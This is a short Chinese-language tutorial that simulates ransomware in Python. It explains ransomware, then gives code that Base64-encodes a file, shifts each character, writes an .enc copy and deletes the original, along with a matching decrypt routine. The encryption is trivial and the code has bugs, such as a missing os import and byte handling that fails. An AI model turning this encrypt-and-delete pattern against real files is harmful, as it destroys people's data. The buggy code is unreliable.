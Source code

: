 # python模拟勒索病毒

## 一、关于勒索病毒

- 将电脑上的一些重要文件，比如word,rar，图片，文本，PDF等一些数据进行加密，将文件以二进制的方式进行加密处理，导致无法成功打开加密过后的文件，要打开需要解密，解密必须要解密程序
- 如何传播：要么就是利用系统或应用程序的漏洞，哟啊么就是认为的疏忽，导致下载了后门程序
- 防范：数据备份

## 二、python模拟

- 所有文件都可以使用Base64进行编码，而Base64是标准字符串，针对这些字符串进行加密，再保存，此时，将无法打开此文件。如果要解密，将加密后的文件，按字符串进行解密，并重新保存为二进制文件。

  ```python
  import base64
  # 针对某个文件进行Base64转码并加密保存
  def encrypt(filepath):
      with open(filepath, mode='rb') as file:
          data = file.read()
          
      source = base64.b64encode(data)
      # 加密算法：大小写字母右移5位
      dest = ''
      for c in source:
          dest += chr(ord(c)+5)
          
      # 将加密字符串保存到文件中
      with open(filepath+'.enc', mode='w') as file:
          file.write(dest)
          
      # 删除原始文件
      os.remove(filepath)
  
  
  # 解密
  def decrypt(filepath):
      with open(filepath, mode='r') as file:
      	data =file.read()
          
      dest = ''
      for c in data:
          dest += chr(ord(c)-5)
          
      newfile = filepath.replace('.enc', '')
          
      with open(newfile,mode='wb') as file:
          file.write(base64.b64decode(dest))
      	
      # 删除加密文件
      os.remove(filepath)
      
      
  if __name__ == '__main__':
      encrypt('./test.jpg')
      decrypt('./test.jpg.enc')
  ```

- 也可以对文件的一部分进行加密，将Base64字符串分成三部分，fisrt[0:200],middle[200:500]加密，last[500:]